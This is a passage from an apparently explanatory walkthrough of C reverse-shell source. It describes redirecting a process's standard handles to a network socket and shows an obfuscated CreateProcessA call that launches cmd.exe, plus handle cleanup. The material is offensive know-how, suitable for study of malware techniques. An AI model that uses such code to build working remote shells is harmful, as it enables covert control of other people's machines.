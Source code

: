 this bit is pretty cool. all three standard handles (input, output, error) are redirected to the network socket. this means that process input comes from the socket, process output goes to the socket, and error messages go to the socket.

the actual process creation is defined in the call below.

```c
((CREATEPROCESSA)CreateProcessFunc)(
    NULL,           // no module name (use command line)
    Process,        // command line - our obfuscated "cmd.exe"
    NULL,           // default process security
    NULL,           // default thread security
    TRUE,           // handle inheritance flag - critical for redirection
    0,              // no creation flags
    NULL,           // use parent's environment
    NULL,           // use parent's directory
    &sinfo,         // utartup info with redirected handles
    &pinfo          // ueceives process information
);
```

finally, we manage the process lifecycle.

```c
((WAITFORSINGLEOBJECT)WaitForSingleObjectFunc)(pinfo.hProcess, INFINITE);
((CLOSEHANDLE)CloseHandleFunc)(pinfo.hProcess);
((CLOSEHANDLE)CloseHandleFunc)(pinfo.hThread);
```

we block until the process exits (`INFINITE` means we'll wait as long as necessary). we then cleanup both the process and thread handles and close both, because `CreateProcess` creates both a process and a primary thread.


